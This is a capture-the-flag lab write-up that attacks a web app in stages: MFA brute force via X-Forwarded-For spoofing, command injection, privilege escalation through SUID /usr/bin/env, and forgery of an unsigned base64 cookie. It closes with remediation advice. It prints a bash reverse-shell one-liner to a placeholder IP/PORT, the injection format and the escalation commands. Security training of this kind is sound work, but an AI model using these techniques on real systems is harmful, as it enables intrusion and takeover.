# Trail Pack

**Level:** Intermediate

## 1. Initial Reconnaissance

### Network Scanning

The laboratory begins with an nmap scan that reveals port 8000 open with an HTTP service:



### Directory Enumeration

Subsequently, a gobuster scan is performed, revealing page files, though without critical information to significantly advance:



## 2. Functionality Discovery

### User Interface

The HTTP service is accessed and two important sections are identified: one for registering new users and another for logging in:

**User Registration:**



**Login:**



### User Enumeration

In the comments section, possible system users are revealed:


## 3. Multi-Factor Authentication (MFA) - First Vulnerability

### MFA Discovery

When attempting to log in with credentials from a newly created user, a code verification functionality is revealed. The system implements an attempt limiter that blocks after 3 failed attempts:



### Protection Mechanism Bypass

Upon reviewing the request in greater detail using Burpsuite, it is revealed that the X-Forwarded-For header can be exploited. When modified, the verification code attempt counter is reset, allowing unlimited attempts. A Python script is developed to perform a brute force attack against the verification code:



**Vulnerability Identified:** MFA bypass through X-Forwarded-For header manipulation to reset the attempt counter.

## 4. Access to User Panel

Following the MFA bypass, access is obtained to a common user dashboard:



## 5. Command Injection - Second Vulnerability

### Vulnerability Discovery

Upon reviewing the different sections, a critical vulnerability is identified in the complaints section. The system executes code-level changes in this section. When using commands in the format `&&<Command>`, these are accepted and executed directly:



### Exploitation - Obtaining Reverse Shell

The following command is used to obtain a reverse shell on the attacker's machine:

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/IP/PORT 0>&1"
```



**Note:** It is recommended to establish a TTY shell for greater comfort during system interaction.

## 6. Credential Enumeration

### Source Code Analysis

In the `main.py` file, the complete page structure is revealed. More importantly, the credentials of all existing system users are discovered:



**Vulnerability Identified:** Exposure of credentials in source code, which would constitute a serious vulnerability in a real-world scenario.

## 7. Privilege Escalation - Third Vulnerability

### Identification of SUID Binaries

A search for binaries with root SUID properties is executed:

```bash
find / -perm -4000 -type f 2>/dev/null
```

A vulnerable binary is obtained: `/usr/bin/env`. With SUID permissions available, it provides a direct path to obtain a root shell via:

```bash
/usr/bin/env /bin/bash -p
```



**Result:** Access is obtained with root privileges, completing the privilege escalation.

## 8. Additional Vulnerability - Unsigned Cookies

### Session Analysis

Upon further exploration of the source code, it is revealed that session cookies (specifically `user_info`) lack a signature and are only encrypted in base64. When decrypted, the following is observed:

```json
{"user":"test","role":"user","email":"test@darklegion.xyz"}
```

### Role Manipulation

Since encryption is only base64 (without cryptographic signature), it is possible to modify the role from `user` to `admin` and re-encrypt:

```bash
echo '{"user":"test","role":"admin","email":"test@gmail.com"}' | base64 -w 0
```

**Encoded Result:**
```
eyJ1c2VyIjoidGVzdCIsInJvbGUiOiJhZG1pbiIsImVtYWlsIjoidGVzdEBnbWFpbC5jb20ifQ==
```

**Note:** The result may vary depending on the specific laboratory implementation.

### Access to Administration Panel

Upon reviewing the source code again (`main.py`), an `/accounting` section is identified that allows modification of the `user_info` parameter. When intercepting the request with Burpsuite and injecting the modified administrator cookie, access is obtained without restrictions:





This access reveals an administrator panel containing the laboratory flag:



**Laboratory Completed.**

## 9. Security Recommendations

### 1. Robust MFA Implementation

**Vulnerability Addressed:** MFA bypass through X-Forwarded-For header

**Recommendation:** Implement attempt limitation mechanisms at the session or user level, not based solely on IP addresses. Employ techniques such as:
- Rate limiting based on authenticated user session
- Storage of failed attempts in database with user association
- Implement exponential backoff after failed attempts
- Validate and trust only real IP addresses from the reverse proxy server, configured securely
- Use X-Forwarded-For headers only when absolutely necessary and validate them against a whitelist of trusted proxies

### 2. Input Validation and Sanitization

**Vulnerability Addressed:** Command injection in the complaints section

**Recommendation:** Implement strict controls against command injection:
- Completely avoid system command execution based on user input
- If necessary, use whitelists of allowed commands instead of attempting to filter
- Use safe execution functions that do not invoke a shell (e.g., `subprocess.run()` with `shell=False`)
- Implement rigorous input validation with specific regular expressions
- Execute processes with minimum necessary privileges

### 3. Cryptographic Protection of Session Cookies

**Vulnerability Addressed:** Unsigned cookies encrypted only in base64

**Recommendation:** Implement cryptographic protection mechanisms for cookies:
- Use digital signatures (HMAC) to ensure cookie integrity
- Use robust encryption (AES-256) in addition to signing
- Implement secure cryptographic hash functions (SHA-256 or higher)
- Consider using established session management libraries (e.g., Flask-Session, Express-Session)
- Never trust sensitive data exclusively in base64, as it is not cryptography
- Implement session expiration and token rotation

### 4. Minimization of SUID Permissions

**Vulnerability Addressed:** Availability of `/usr/bin/env` with SUID permission

**Recommendation:** Implement principles of least privilege:
- Regularly audit all binaries with SUID permission on the system
- Remove SUID from binaries that do not absolutely require it
- Use safer alternatives such as `sudo` with specific configuration
- Implement AppArmor or SELinux to restrict capabilities of SUID binaries
- Maintain a centralized log of all files with active SUID
- Perform periodic audits of filesystem permissions
